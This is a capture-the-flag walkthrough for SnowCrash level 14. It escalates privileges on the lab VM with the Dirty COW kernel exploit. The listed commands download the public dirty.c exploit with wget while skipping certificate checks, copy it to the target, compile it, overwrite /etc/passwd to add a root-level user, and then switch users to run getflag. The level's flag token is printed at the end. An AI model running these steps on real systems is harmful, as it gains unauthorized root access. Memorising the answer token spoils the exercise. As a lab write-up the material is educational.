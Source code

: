 # SnowCrash Level14 Guide
This guide will walk you through the process to connect as the `flag14` user.

## Procedure:

1. **Examine your environment**

`uname -a` : Display system informations.
```
Linux SnowCrash 3.2.0-89-generic-pae #127-Ubuntu SMP Tue Jul 28 09:52:21 UTC 2015 i686 i686 i386 GNU/Linux
```

The linux kernel version 3.2.0-89-generic-pae is vulnerable to dirty cow exploit.

2. **Getting exploit sources**

On client download the exploit source file:
```bash
wget --no-check-certificate https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c
```

Copy the file on host:
```bash
scp -P 4242 ./dirty.c level14@<host-ip>:/tmp/dirty.c
```

Compile file on host:
```bash
cd /tmp
gcc -pthread dirty.c -o dirty -lcrypt
```

3. **Run exploit**

Run exploit binary:
```bash
./dirty is_secure
```

Login as firefart
```bash
su firefart
Password: is_secure
```

Restore the old passwd file:
```
mv /tmp/passwd.bak /etc/passwd
```

4. **Get the flag**

Switch to user flag14:
```bash
su flag14
```

Get the flag:
```bash
getflag
```

Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ

